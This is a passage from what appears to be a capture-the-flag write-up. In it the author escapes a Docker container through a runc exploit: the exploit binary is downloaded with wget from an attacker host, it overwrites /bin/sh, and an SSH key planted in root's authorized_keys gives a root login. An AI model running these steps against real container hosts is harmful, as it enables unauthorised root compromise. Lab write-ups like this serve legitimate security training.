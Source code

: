 ```

noah@thenotebook:~$ sudo docker exec -it webapp-dev01 bash
root@97f932ea172b:/opt/webapp# wget 10.10.14.19/cve-2019-5673
--2021-07-22 02:17:33--  http://10.10.14.19/cve-2019-5673
Connecting to 10.10.14.19:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2140295 (2.0M) [application/octet-stream]
Saving to: ‘cve-2019-5673’

cve-2019-5673                100%[==============================================>]   2.04M  4.21MB/s    in 0.5s    

2021-07-22 02:17:34 (4.21 MB/s) - ‘cve-2019-5673’ saved [2140295/2140295]

```

I’ll make it executable, and run it:

```

root@97f932ea172b:/opt/webapp# chmod +x cve-2019-5673 
root@97f932ea172b:/opt/webapp# ./cve-2019-5673 
[+] Overwritten /bin/sh successfully

```

It hangs after reporting that `/bin/sh` was successfully overwritten. It’s waiting for someone to try to run `runc`. In the second window, I’ll run `docker exec` again:

```

noah@thenotebook:~$ sudo docker exec -it webapp-dev01 /bin/sh
No help topic for '/bin/sh'

```

It returns a weird error, but as soon as I run it, more prints in the first window:

```

root@97f932ea172b:/opt/webapp# ./cve-2019-5673 
[+] Overwritten /bin/sh successfully
[+] Found the PID: 73
[+] Successfully got the file handle
[+] Successfully got write handle &{0xc000460060}

```

My SSH key was just written to root’s `authorized_keys` file, and I can connect over SSH:

```

oxdf@parrot$ ssh -i ~/keys/ed25519_gen root@10.10.10.230
...[snip]...
root@thenotebook:~#

```
